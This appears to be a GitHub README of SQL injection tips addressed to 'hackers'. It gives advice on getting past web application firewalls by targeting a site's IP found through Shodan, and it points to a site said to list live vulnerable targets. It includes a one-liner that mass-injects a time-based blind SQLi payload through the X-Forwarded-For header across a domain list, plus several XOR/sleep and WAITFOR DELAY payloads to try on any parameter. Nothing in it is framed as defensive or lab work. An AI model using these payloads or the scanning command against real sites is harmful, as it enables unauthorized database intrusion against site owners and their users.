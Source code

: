 # SQL Injection 

SQL injection Tips :

Hello hackers, if you don't find correct results use Ghauri instead of sqlmap 

* Dont use --batch in sqlmap always stay manual because sometimes its location gets redirected

* try website IP instead of  domain so waf cannot block you use shodan 

* use burp intruder and see the response completed when spraying SQL injection payloads in any param

* If you not good at SQL injection try this website with live real SQL injection here  https[:]//cxsecurity[.]com/

* use this command for automation for SQL injection 
  any gau  or waybackurls paramaspider  with gf sqli or your own parameter     by kxss

cat domain.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13'

* use SQL injection waf only needed use atlas tool by  m4ll0k

* For blind SQL injection try payloads like this every time you see any params

0'XOR(if(now()=sysdate(),sleep(6),0))XOR'   ---> sql


0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z%20=%3E

0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z

'%20WAITFOR%20DELAY%20'0:0:5'--

if(now()=sysdate(),sleep(3),0)
